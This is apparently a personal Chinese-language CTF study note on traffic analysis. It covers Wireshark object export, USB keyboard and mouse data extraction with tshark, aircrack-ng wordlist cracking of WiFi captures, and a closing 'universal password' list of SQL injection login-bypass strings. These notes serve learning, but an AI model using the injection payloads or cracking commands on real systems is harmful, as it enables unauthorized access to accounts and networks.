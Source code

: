 ### wireshark数据提取（Linux）

1. 文件-->导出对象-->http (文件分离功能)

2. 手动抓取

![image-20230816102830864](C:\Users\Annieyang\AppData\Roaming\Typora\typora-user-images\image-20230816102830864.png)

无线wifi流量包

![image-20230819135041492](C:\Users\Annieyang\AppData\Roaming\Typora\typora-user-images\image-20230819135041492.png)

1. **aircrack-ng**进行密码破解(linux) 

   ```
   检查cap包：
   aircrack-ng xxx.cap
   跑字典进行破解：
   aircrack-ng xxx.cap -w 字典.txt
   ```

   ### usb流量抓取

   apply as column(应用为列)

   ![image-20230816105933206](C:\Users\Annieyang\AppData\Roaming\Typora\typora-user-images\image-20230816105933206.png)

对应关系：

htttp://www.usb.org/developers/hidpage/hut1_12v2.pdf

Leftover Capture Data数据提取

python脚本

<img src="C:\Users\Annieyang\AppData\Roaming\Typora\typora-user-images\image-20230816110552322.png" alt="image-20230816110552322" style="zoom: 50%;" align="left"/>

(1).键盘流量（8字节，连续性）

法一：excel不推荐：导出分组解析-->CSV

法二：wireshark:

tshark -r  usb1.pcap -T fields -e usb.capdata>usbdata.txt

五笔打字笑死

 (2).鼠标流量（4字节，离散型）

![image-20230816112147439](C:\Users\Annieyang\AppData\Roaming\Typora\typora-user-images\image-20230816112147439.png)

![image-20230819135642453](C:\Users\Annieyang\AppData\Roaming\Typora\typora-user-images\image-20230819135642453.png)



https流量分析

![image-20230819135957971](C:\Users\Annieyang\AppData\Roaming\Typora\typora-user-images\image-20230819135957971.png)

## 万能密码

rsa

```
import binascii

print(binascii.unhexlify(hex(m)[2:]))
```

```
' or 1='1
'or'='or'
admin
admin'--
admin' or 4=4--
admin' or '1'='1'--
admin888
"or "a"="a
admin' or 2=2#
a' having 1=1#
a' having 1=1--
admin' or '2'='2
')or('a'='a
or 4=4--
c
a'or' 4=4--
"or 4=4--
'or'a'='a
"or"="a'='a
'or''='
'or'='or'
1 or '1'='1'=1
1 or '1'='1' or 4=4
'OR 4=4%00
"or 4=4%00
'xor
admin' UNION Select 1,1,1 FROM admin Where ''='
1
-1%cf' union select 1,1,1 as password,1,1,1 %23
1
17..admin' or 'a'='a 密码随便
'or'='or'
'or 4=4/*
something
' OR '1'='1
1'or'1'='1
admin' OR 4=4/*
1'or'1'='1

```

